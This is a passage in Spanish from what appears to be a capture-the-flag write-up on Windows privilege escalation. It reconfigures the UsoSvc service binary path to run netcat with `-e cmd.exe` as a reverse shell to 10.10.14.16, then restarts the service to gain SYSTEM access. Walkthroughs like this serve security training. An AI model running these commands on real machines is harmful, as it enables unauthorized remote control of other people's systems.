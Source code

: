 #### Modificación de servicios

Mediante `sc.exe qc UsoSvc` se puede ver más a detalle información respecto este servicio.

![Información de servicio UsoSvc](images/post_7.png)

Por lo que haciendo uso de `sc.exe config UsoSvc binpath="c:\windows\temp\nc.exe -e cmd.exe 10.10.14.16 4321"` se buscó la modificación de la ruta del binario a ejecutar sustituyéndola con la ejecución de netcat para entablar una reverse shell. Al consultar de nuevo la información del servicio, se observa la modificación del valor.

![Cambio de ruta de binario](images/post_8.png)

Por consiguiente al poner la conexión a la escucha y  realizar un reinicio del servicio `net stop UsoSvc && net start UsoSvc` se logró tener acceso como `NT AUTHORITY\SYSTEM` satisfactoriamente.

![Acceso como nt authority system](images/post_9.png)
